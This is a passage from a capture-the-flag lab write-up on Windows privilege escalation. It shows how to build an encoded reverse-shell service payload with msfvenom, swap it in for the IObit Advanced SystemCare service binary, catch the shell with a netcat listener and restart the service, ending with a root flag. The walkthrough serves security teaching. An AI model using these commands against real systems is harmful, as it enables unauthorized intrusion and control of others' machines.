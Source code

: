 Now as we found our service we will now generate a payload for exploiting our target using msfvenom on our machine and then uploading it to our target.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.86.191 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

![image](https://github.com/user-attachments/assets/3651fca9-95ac-49c2-98ed-06d0b8fbb205)

Swape Shell form meterpreter
```
shell
```
![image](https://github.com/user-attachments/assets/c7e8cb31-592e-47bd-b124-41cd19ab36a0)

Stop the service:
```
sc stop AdvancedSystemCareService9
```
press ctrl+C to exit the process
```
ctrl + c
```
Now upload the created payload, the path above is the path of the service and we are replacing it with our malicious payload (always check the path of the file to be same as your metasploit path in which it is running)
```
upload Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe"
```
Let’s start a Netcat listener in another tab of our terminal

```
nc -lvnp 4443
```
Let’s move back to the shell and start our service again and here comes the juice 
```
meterpreter > shell
C:\Users\bill\Desktop> sc start AdvancedSystemCareService9
```


## Root flag
```
9af5f314f57607c00fd09803a587db80
```
